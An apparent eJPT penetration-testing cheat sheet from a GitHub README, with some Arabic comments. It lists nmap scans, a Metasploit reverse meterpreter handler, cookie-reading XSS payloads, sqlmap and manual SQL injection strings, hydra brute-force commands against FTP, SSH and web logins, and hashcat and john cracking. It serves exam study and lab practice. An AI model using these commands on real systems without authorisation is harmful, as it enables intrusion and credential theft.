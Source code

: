 # ejpt-cheet-sheet
Wireshark:

TCP:
```right click on it then click on Follow then click on TCP streem```

UDP:
```right click on it then click on Follow then click on UDP streem```


|---------------------------------------------------------------------|
|                                                                     |
|---------------------------------------------------------------------|

Nmap:
```nmap -sn [the ip]/24 -oN file.txt
nmap scan types

-sS: TCP SYN Scan (aka Stealth Scan)
-sT: TCP Connect Scan 
-sU: UDP Scan
-sn: Port Scan
-sV: Service Version information
-O: Operating System information
nmap 10.10.10.10 #Top 1000 ports (default scan)
nmap -F 10.10.10.10 #Top 100 ports```

|---------------------------------------------------------------------|
|                                                                     |
|---------------------------------------------------------------------|

Mataspolite:
```search (the payload name)

use exploit/multi/handler
set payload linux/x64/meterpreter_reverse_tcp # the payload
set RHOST           # the target host
run
```

|---------------------------------------------------------------------|
|                                                                     |
|---------------------------------------------------------------------|

xss:
```
<script>alert(document.cookie)</script>
><img src=x onerror=alert(1)>
```

|---------------------------------------------------------------------|
|                                                                     |
|---------------------------------------------------------------------|

finding ip's from websites:
```dig exampil.com

ip route add 192.168.10.0/24 via 10.175.3.1 -- اذا حبينا نضيف الجهاز المخفي```

|---------------------------------------------------------------------|
|                                                                     |
|---------------------------------------------------------------------|

sqlmap:
```sqlmap -u ‘http://example.com/view.php?id=1141’ -p id
-u    == url
-p    == paramater
sqlmap -u "http://example.com/view.php?id=1141" --dbs == to get the database name```

|---------------------------------------------------------------------|
|                                                                     |
|---------------------------------------------------------------------|

hydra:
```hydra -L users.txt -P pass.txt <service://server> 
hydra -l admin -P pass.txt -f ftp://10.10.10.10
hydra -l root -P pass.txt 192.168.1.105 -t 4 ssh
hydra -l root -P pass.txt <ssh ip>  ssh
ftp <IP>        # enter 'anonymous' as username and password
hydra -U ftp #Hydra uses a module for each service to attack. To get information about a module this command can be used
hydra -L users.txt -P pass.txt <service://server IP> <options>
hydra -L admin -P pass.txt -f ftp://10.10.10.10 #Stop attacking on finding first successful hit for user admin
hydra 10.10.10.10 http-post-form "/login.php:user=^USER^&pass=^PASS^:statement for incorrect login" -L /usr/share/ncrack/minimal.usr -P /etc/john/rockyou.txt -f -V #Attacking http post form
```

|---------------------------------------------------------------------|
|                                                                     |
|---------------------------------------------------------------------|

drip:
```dirb http://<IP>/
dirb http://<IP>/ <dictionary_file_path>    # Use dictionary other than default one
dirb http://<IP>/dir -u admin:admin    # When you want to bust recursively but a dir asks for username password which you know already
dirb http://10.10.5.1/ <wordlist path>
dirb http://10.10.5.1/ -u admin:admin #for HTTP authentication
dirb http://10.10.5.1/ <wordlist path>
dirb http://10.10.5.1/ -u admin:admin #for HTTP authentication
```

|---------------------------------------------------------------------|
|                                                                     |
|---------------------------------------------------------------------|

hashcat:
```
hashcat -m 0 -a 0 exam.hash file.dict
hashcat -m 0 -a 0 exam.hash file.dict -r rule/custom.rule #The rule file contains the rules to create mangled words such as p@ssword, PaSSworD https://hashcat.net/wiki/doku.php?id=rule_based_attack 
hashcat -m 0 -a 3 exam.hash ?l?l?l?l?l?a #mask attack https://hashcat.net/wiki/doku.php?id=mask_attack
```

|---------------------------------------------------------------------|
|                                                                     |
|---------------------------------------------------------------------|

john the ripper:
```
john hashfile.txt
john --wordlist=/path/to/your/wordlist.txt hashfile.txt
john --format=ntlm hashfile.txt
john --list=formats #all types of passwords we can crack
john -incremental -users:<users list> <file to crack> #if you want to crack only certain users from the password database such as /etc/shadow file
john --show crackme #Check cracked password after completion of cracking session, where crackme is the password database file
john -wordlist=<wordlist> -rules <file to crack> #rules are used for cracking mangled words
```

|---------------------------------------------------------------------|
|                                                                     |
|---------------------------------------------------------------------|

tips:
```
sql injection

and 1=1; -- -
or 'a'='a'; -- -

hydra,john,hashcat = 
brute force

SHOW databases; #show all databases
SHOW tables FROM databases; #show tables from a database
USE database; #select a database
SELECT * FROM table; #show everything in a certain table
mysql -u USERNAME -pPASSWORD -h <ip host>
directory brute force


'anonymous' as username and password
RCE = remote code execution
xss = cross site scripting
sql == db
ftp = file transfer protocl
ssh = Secure Shell

routting -- توجيه
route -- check routers
```
